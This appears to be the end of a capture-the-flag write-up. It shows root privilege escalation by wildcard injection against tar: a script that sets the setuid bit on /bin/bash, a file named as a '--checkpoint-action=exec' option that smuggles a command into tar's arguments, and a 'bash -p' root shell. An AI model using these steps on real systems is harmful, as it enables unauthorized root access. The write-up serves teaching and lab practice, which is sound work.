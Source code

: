 Here, we'll be exploiting the ```tar``` binary because it is vulnerable to wildcard injection

you can read more about wildcard injection here:https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

```
echo "chmod +s /bin/bash" > abeg.sh
echo "" > "--checkpoint-action=exec=sh abeg.sh"
echo "" > "--checkpoint-action=exec=sh abeg.sh"
ls -l /bin/bash
```

![image](https://user-images.githubusercontent.com/67879936/222609712-b563db6f-2b5c-4070-8a7c-c33a098c6e54.png)

nice, it worked hehe. Now lets try to get a shell as the root user

>command: /bin/bash -p

![image](https://user-images.githubusercontent.com/67879936/222612556-5785908b-270e-40d3-b939-dfed1a6d6cb6.png)

Boom!!! We got a shell as root

That will be all for today
<br> <br>
[Back To Home](../../index.md)








































